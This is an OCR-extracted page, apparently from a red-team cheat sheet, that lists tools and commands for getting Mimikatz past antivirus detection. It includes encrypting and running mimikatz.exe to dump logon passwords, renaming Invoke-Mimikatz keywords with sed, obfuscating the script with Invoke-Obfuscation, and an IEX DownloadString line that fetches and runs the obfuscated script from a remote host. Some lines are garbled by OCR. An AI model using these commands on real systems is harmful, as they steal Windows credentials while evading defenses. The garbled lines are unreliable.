 ```
./encryptor -f mimikatz.exe -o bin.enc
deliver.exe -d -c sekurlsa::logonpasswords -f bin.enc
```


https://github.com/0xsp-SRD/mortar



### .NET-Crypter


```
Browse Executable:
Generate Encryption:
```

https://github.com/roast247/.NET-Crypter


### Custom mods + Invoke-Obfuscation

```
sed
- e '/<#/,/#>/c\\' "$1"
sed
's/^[[: space: ]]*#.*$//g' "$1"
- e
sed
's/Invoke-Mimikatz/RainbowsAndUnicorns/g' "$1"
- e
T'T
sed
-e's/DumpCreds/MoreRainbows/g' "$1"
Invoke-Obfuscation -ScriptPath ‘./Invoke-Mimikatz.ps1’ -Command ‘Token\All\1\Out full_power.ps1’ -Quiet
Invoke-Obfuscation -ScriptPath '.\2.IM_critical_words.ps1' -Command ‘Token\Variable\1’ -Quiet > final.ps1
IEX (New-object Net. Webclient) .Downloadstring('http: //192.168.1.104:8000/final.ps1') ; RainbowsAndUnicorns -MoreRainbows
```

https://github.com/newlog/fud_mimikatz_talk


### Obfuscated_Invoke-Mimikatz

```
sed -i -e 's/Invoke-Mimikatz/Invoke-LSASSscraper/g' Invoke-Mimikatz.ps1
sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1
sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions
#\-/g" Invoke-Mimikatz.ps1
 Install-Module -Name "ISESteroids" -Scope CurrentUser -Repository PSGallery –Force
 Import-Module .\obfuscat_Invoke-Mimikatz.ps1
 Invoke-LSASSscraper
```
